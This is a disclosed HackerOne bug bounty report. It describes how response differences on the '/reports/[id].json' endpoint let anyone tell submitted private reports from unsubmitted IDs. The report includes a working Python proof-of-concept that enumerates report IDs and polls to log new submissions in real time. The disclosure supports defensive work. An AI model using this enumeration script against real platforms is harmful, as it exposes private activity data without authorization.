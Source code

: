 # Ability to monitor reports' submission in real time

## Report Details
- **Report ID**: 159890
- **URL**: https://hackerone.com/reports/159890
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-17T00:59:11.910Z
- **Disclosed**: 2016-08-17T08:02:00.458Z

## Reporter
- **Username**: saeedhashem
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
Hey ,

I would like to report an issue with the server responses that allow anyone users to monitor and track the reports' submission and the platform activity .

##Description :

The issue occurs on the endpoint '/reports/[report_id].json' due to the difference between server responses for submitted reports and  the yet not submitted ones .

If the report is already submitted and the logged in user has no access to it the html response will return a message saying `Oops! You can't access this report because it isn't public yet.` and the JSON response will return a blank page , zero length .

And if the report id passed to the endpoint hasn't been submitted yet , the HTML response will return a not found page , and the JSON response will return `{"status":"404","error":"Not Found"}` .

##PoC :

I wrote a simple python script can exploit this behaviour , it's my first pentesting python script by the way , sorry for the poor coding , I just learned how to do this today but you'll get the idea  :

```
import requests
import time
from datetime import datetime

start = raw_input("\nEnter the last report you know about [Ignore if before #159875]: ")
if start == '' :
    start = 159874
else :
    start = int(start)

if start < 159874 :
    start = 159874

def getReport(report):
    url = 'https://hackerone.com/reports/%s.json' % str(report)
    res = requests.get(url)
    l = len(res.text)
    if l == 36 :
        return 0 
    else:
        return 1 

def lastReport(start):
    for report in range( start ,1000000):
        if getReport(report):
            continue
        else :
            report = report - 1
            return report

last = lastReport(start)
print "\n[+]Last submitted report is : #%s\n" % str(last)

def getNext(last):
    report = last + 1
    if getReport(report):
        now = datetime.now()
        print "Report number #%s has been submited at %s/%s/%s %s:%s\n" % (report , now.month, now.day, now.year, now.hour, now.minute)
        last = report
        getNext(last)
    else :
        time.sleep(30)
        last = report - 1
        getNext(last)

getNext(last)
```
As the markdown missed up the code a bit I'm attaching it in two files 
F112672 => works well on Windows
F112671 => works well on Linux

The output of the script would be like :

{F112668}
{F112670}

Basically it records the date and time of every newly submitted report , of course that can be improved to generate hourly or daily reports about the platform activities , when hackers are mostly active , how frequent reports are submitted on H1 and so on , all is normally undisclosed information , only platform operator should know about .

##Impact :

I think it's too permissive for a highly secure platform to leave a way open for third parties to track its activity and its user interactions with the platform , which considered as privilege information only platform operators should be allowed to get their hands onto .

Thank you guys , glad that I've learned something new today specifically for this report , hope it qualifies and worth addressing . 

Best regards ,
Thanks ,

## Attachments
- H1-mon1.PNG
- H1-mon2.PNG
- h1-py3.py
- h1-py2.py
